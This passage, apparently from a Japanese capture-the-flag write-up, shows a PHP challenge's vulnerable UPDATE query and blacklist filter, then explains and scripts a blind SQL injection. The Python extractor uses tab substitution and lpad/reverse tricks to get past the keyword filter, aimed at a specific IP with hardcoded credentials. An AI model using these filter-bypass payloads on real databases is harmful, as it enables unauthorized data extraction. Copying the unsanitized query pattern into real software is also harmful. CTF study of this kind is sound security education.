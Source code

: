 ```php
            $buyflag=preg_replace('/drop|sleep|benchmark|load|substr|substring|strcmp|union|and|offset|mid|binary|regexp|match|ord|right|locate|left|rpad|length|hex|write|join|=|-|#| |floor|=/i','~nothingisezdude~',strtolower($buyflag));
            $sql3 = mysqli_query($conn,"UPDATE buyflag SET value=value+1 WHERE username='admin'");
            $sql4 = mysqli_query($conn,"UPDATE buyflag SET value=value+1 WHERE username='$buyflag'");
        }
    }
}
mysqli_close($conn);
?>
```

`name=buyflag` なユーザ名の入力欄は、どうやら入力したユーザと admin の所持金を 1 増やす機能のためのものだったようです。

この入力欄を使って `UPDATE buyflag SET value=value+1 WHERE username='$buyflag'` の部分で SQLi ができるようですが、`union` も `join` もできず、`sleep` も `benchmark` もできずなかなかつらそうです。

Blind SQLi で攻めていくとして、どのようにして 1 ビットの情報が手に入れられるか考えます。`buyflag` に `' or 'A' < 'B` が入ると全ユーザの所持金が 1 増え、`' or 'A' > 'B` の場合には何も変化がありません。これを利用して、ユーザの所持金が増えたかどうかで情報を手に入れましょう。

フィルターを回避する方法を 1 つずつ考えます。` ` (半角スペース) は `\t` (タブ) で代替できます。結果は ASCII の範囲内でしょうから、`ord` は `ascii` で代替できます。`substr` は `lpad(reverse(lpad(string, index, '')), 1, '')` で代替できます。これで大体はなんとかなるでしょう。

では、まず `version()` の結果が得られるか試してみましょう。

```python
import re
import requests

def find_info(s):
  return re.findall(r"<font color='red' size=8\s*>(.+?)</font>", s)

def get_info():
  r = requests.post(url, data={
    'username': user,
    'password': password
  })
  return find_info(r.content)

def query(s):
  r = requests.post(url, data={
    'username': user,
    'password': password,
    'buyflag': s.replace(' ', '\t')
  })
  return find_info(r.content), get_info()

def check(r):
  return r[0][1] != r[1][1]

if __name__ == '__main__':
  url = 'http://128.199.121.135/index.php'
  user, password = 'eesama', 'hoho@hihi'

  res = ''
  i = 1
  while True:
    c = 0
    for b in range(7):
      r = check(query("' or (select ascii(lpad(reverse(lpad(version(),{},'')),1,'')) & {}) or 'A' < 'A".format(i, 1 << b)))
      if r: c |= 1 << b
    res += chr(c)
    i += 1
    print repr(res)
```